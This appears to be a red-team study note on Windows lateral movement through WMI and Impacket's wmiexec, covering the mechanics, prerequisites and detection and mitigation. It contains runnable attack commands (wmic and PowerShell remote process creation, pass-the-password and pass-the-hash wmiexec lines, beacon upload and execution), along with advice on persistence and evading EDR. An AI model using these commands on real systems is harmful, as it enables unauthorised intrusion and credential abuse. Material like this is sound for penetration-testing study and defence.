

# Lateral Movement via WMI and WMIExec

## Introduction to WMI Lateral Movement
Windows Management Instrumentation (WMI) is the Microsoft implementation of Web-Based Enterprise Management (WBEM). WMI allows administrators to query, manage, and configure local and remote Windows systems. It is deeply embedded into the Windows OS and provides a vast array of classes to interact with processes, services, registry keys, and event logs.

For attackers, WMI represents a "Living off the Land" (LotL) goldmine. Unlike PsExec, which drops highly-signatured executables and creates noisy Windows Services, WMI allows for stealthier, often fileless lateral movement. By invoking the `Win32_Process` class, an attacker can spawn arbitrary processes on a remote machine. 

Furthermore, WMI processes are executed under the context of the authenticating user (typically a Local Administrator) rather than `SYSTEM`, which changes the OPSEC dynamic slightly compared to SMB/PsExec.

---

## Architectural ASCII Diagram: WMI Execution Flow



---

## Under the Hood: How WMI Lateral Movement Works
WMI utilizes the Distributed Component Object Model (DCOM) over Remote Procedure Calls (RPC). 

1. The attacker connects to the RPC Endpoint Mapper on **Port 135**.
2. Authentication occurs, and the server assigns a dynamic high RPC port (usually in the 49152-65535 range) for the actual WMI communication.
3. The attacker sends a command to instantiate the `Win32_Process` class and calls its `Create` method.
4. The Windows Management service (`Winmgmt`) receives this request and passes it to the WMI Provider Host (`WmiPrvSE.exe`).
5. `WmiPrvSE.exe` spawns the requested process (e.g., `cmd.exe` or `powershell.exe`).

**Crucial Detail**: Native WMI process creation is *asynchronous* and *blind*. When you spawn a process via WMI, it does not naturally return the output (stdout/stderr) of that process back over the WMI protocol. Tools like `wmiexec` use creative workarounds to fetch the output.

---

## Prerequisites for WMI Abuse
1. **Network Connectivity**: Port 135 (RPC) and dynamic high ports (49152-65535) must be open. 
2. **SMB Access (Optional but Common)**: If using Impacket's `wmiexec.py` to get interactive output, Port 445 (SMB) must also be open to retrieve the output files.
3. **Privileges**: The attacker requires Local Administrator credentials on the target. WMI access requires the `Enable` and `Remote Enable` permissions in the WMI namespace, which are granted to Administrators by default.

---

## Tooling and Execution

### 1. Native Windows Tools (`wmic` and PowerShell)
These tools are built into Windows and can be used to silently execute commands. Because WMI is blind, we often pipe output to a file on an accessible share, or execute a reverse shell/beacon directly.

**Using `wmic.exe` (Deprecated but still functional in many environments):**
```cmd
wmic /node:192.168.1.100 /user:CORP\Administrator /password:Password123 process call create "cmd.exe /c ipconfig > C:\Windows\Temp\out.txt"
```

**Using PowerShell (`Invoke-WmiMethod`):**
```powershell
$cred = Get-Credential
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "powershell.exe -enc <Base64Payload>" -ComputerName 192.168.1.100 -Credential $cred
```
*Advantage*: Extremely stealthy. No services are created, and no binaries are dropped to `ADMIN$`.

### 2. Impacket's `wmiexec.py` (Linux / Kali)
Impacket solves the "blind" WMI problem by creating a pseudo-interactive shell. 

**How wmiexec works:**
1. It uses WMI (`Win32_Process`) to spawn `cmd.exe`.
2. The `cmd.exe` command is structured to redirect its output to a temporary file located in the `ADMIN$` share (e.g., `C:\Windows\Temp\`).
3. Impacket then connects to the target via SMB (Port 445), reads the temporary file, displays the output to the attacker, and deletes the file.

```bash
# Pass-the-Password
wmiexec.py CORP/Administrator:Password123@192.168.1.100

# Pass-the-Hash (PtH)
wmiexec.py CORP/Administrator@192.168.1.100 -hashes 00000000000000000000000000000000:8846f7eaee8fb117ad06bdd830b7586c
```
*Note*: Similar to `smbexec`, `wmiexec.py` drops a temporary text file to the disk for *every command executed*, which leaves file system artifacts.

---

## Advanced WMI: Event Subscriptions for Persistence and Lateral Movement
WMI is not just for one-off process creation; it contains a powerful eventing engine. Attackers can create WMI Event Subscriptions to trigger code execution automatically when specific system events occur (e.g., when a user logs on, or at a specific time).

This requires configuring three WMI classes:
1. **EventFilter**: The trigger condition (e.g., system startup).
2. **EventConsumer**: The action to take (e.g., execute a command line or run a VBScript payload).
3. **FilterToConsumerBinding**: Links the trigger to the action.

This technique is often used for highly stealthy, fileless persistence.

---

## Detection, OPSEC, and Mitigation

### OPSEC Considerations
WMI is generally stealthier than PsExec because it does not create Event ID 7045 (Service Creation) and does not inherently drop binaries. However, `wmiexec.py` does generate network traffic on both RPC and SMB, and drops temporary output files.

To be truly stealthy, attackers prefer native PowerShell WMI invocations to execute entirely memory-resident payloads (like Cobalt Strike beacons), avoiding SMB and disk writes entirely.

### Detection Artifacts
1. **Process Lineage (Event ID 4688)**: The most critical detection metric for WMI. Processes spawned via WMI will always have `WmiPrvSE.exe` as their parent process. 
   - *Suspicious*: `WmiPrvSE.exe` spawning `cmd.exe`, `powershell.exe`, `rundll32.exe`, or `certutil.exe`.
2. **Command Line Logging**: `wmiexec.py` executes very specific, heavily recognizable command lines to redirect output. Example: `cmd.exe /Q /c <command> 1> \\127.0.0.1\ADMIN$\__165184.txt 2>&1`.
3. **WMI Event Tracing (ETW)**: Advanced EDRs monitor the `Microsoft-Windows-WMI-Activity` trace provider for malicious WMI class invocations.

### Mitigations
- **Network Segmentation**: Restrict RPC traffic (Port 135 and dynamic ports) between workstations.
- **Principle of Least Privilege**: Limit the users who belong to the local Administrators group.
- **WMI Permissions**: In highly secure environments, modify WMI namespace security via `wmimgmt.msc` to restrict `Remote Enable` privileges even for administrators.

---


## Real-World Attack Scenario
In an adversary simulation for a global logistics firm, the red team had obtained a low-privileged domain user's credentials and, through an excessive rights misconfiguration, found that this user belonged to the local Administrators group of the primary software deployment server (`DEPLOY-01`). The organization heavily monitored SMB service creations (like PsExec) and PowerShell usage due to recent ransomware scares. 

To bypass these restrictions and maintain a low profile, the attacker leveraged Windows Management Instrumentation (WMI) for lateral movement using Impacket's `wmiexec.py`. WMI relies on the DCOM protocol (port 135) and dynamic RPC ports, which are often permitted for enterprise management tools like SCCM.

```bash
wmiexec.py CORPDOMAIN/jdawson:'P@ssw0rd2026!'@10.200.5.15
```

The connection initiated successfully. Unlike PsExec, `wmiexec.py` does not upload a service executable. Instead, it instantiates the `Win32_Process` class to silently spawn `cmd.exe` processes on the target, reading the output from the `$ADMIN` share. This "fileless" lateral movement technique often bypasses basic antivirus checks.

```cmd
C:\> ipconfig /all
Windows IP Configuration
   Host Name . . . . . . . . . . . . : DEPLOY-01
   Primary Dns Suffix  . . . . . . . : corp.local
```

Once inside the `DEPLOY-01` server, the attacker needed a more robust Command and Control (C2) connection. To evade the strict EDR policies governing PowerShell, the attacker used the existing WMI prompt to deploy a specialized, compiled C# runner. They uploaded the binary via the built-in SMB share access that `wmiexec` inherently uses.

```cmd
C:\> put beacon.exe C:\Windows\Temp\updater.exe
C:\> C:\Windows\Temp\updater.exe
```

The `updater.exe` payload executed perfectly under the context of the local administrator. By utilizing WMI, the execution chain looked entirely native: the `WmiPrvSE.exe` (WMI Provider Host) process spawned the command prompt, which then executed the payload. This execution flow closely mimicked legitimate enterprise administrative software, allowing the red team to blend into the noise of standard administrative traffic. From this central deployment server, the attacker eventually pushed a benign "update" package to all workstations, simulating a massive enterprise-wide compromise.

## Chaining Opportunities
- **[[02 - Lateral Movement via WinRM and PSRemoting]]**: WinRM is often a preferred, more robust alternative to WMI. WMI can be used to restart the WinRM service or alter firewalls if WinRM is initially blocked.
- **[[05 - Dumping LSASS Memory Mimikatz Procdump Comsvcs]]**: WMI is frequently used to spawn `procdump.exe` silently to dump memory without interacting with the desktop.

## Related Notes
- [[01 - Lateral Movement via RDP and Hijacking Sessions]]
- [[03 - Lateral Movement via SMB PsExec SmbExec]]
- [[Kerberoasting and AS-REP Roasting]]
- [[Active Directory Enumeration with BloodHound]]

---
*End of Document*
